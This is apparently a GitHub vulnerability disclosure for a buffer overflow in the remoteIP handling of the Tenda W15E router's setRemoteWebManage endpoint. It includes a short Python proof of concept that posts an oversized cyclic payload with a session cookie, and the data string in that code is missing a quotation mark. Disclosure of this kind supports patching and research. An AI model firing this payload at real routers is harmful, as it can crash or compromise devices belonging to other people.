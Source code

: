 # W15E buff overflow vulnerability
Vendor: Tenda W15E
Version: US_W15EV1.0br_V15.11.0.13(1068_1523_841)_CN_TDC

Description：There is a buff overflow vulnerability in W15E router. The function is 0x00098F2C. IndexSet gets the content of remoteIP and uses the strcpy without check the length, which result in buffer overflow.

The static analysis is as follows: 
![image](https://github.com/sezangel/IOT-vul/assets/89381625/25bc9ec1-e0cf-40b2-adcc-2fe2461b980b)

![image](https://github.com/sezangel/IOT-vul/assets/89381625/ddb5fe6c-576f-4ada-b92c-aebe85340472)

POC:

```python
import requests
from pwn import *

url='http://192.168.100.2/goform/setRemoteWebManage'
payload=cyclic(500)
header={
'Host': '192.168.100.2',
'User-Agent':'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0',
'Accept':'*/*',
'Accept-Language':'en-US,en;q=0.5',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8',
'X-Requested-With':'XMLHttpRequest',
'Origin':'http://192.168.100.2',
'Connection':'close',
'Referer':'http://192.168.100.2/mac_filter.html?random=0.008005922687726486&',
'Cookie':'password=17399d7fb9cf0644a1f50f015116919dcabazx'} 

data1 =enable=true&remotetype=test&remoteWan=0000&remotePort=1000&remoteIP=%s'%payload
ret = requests.post(url = url ,headers = header,data = data1, verify=False)
```



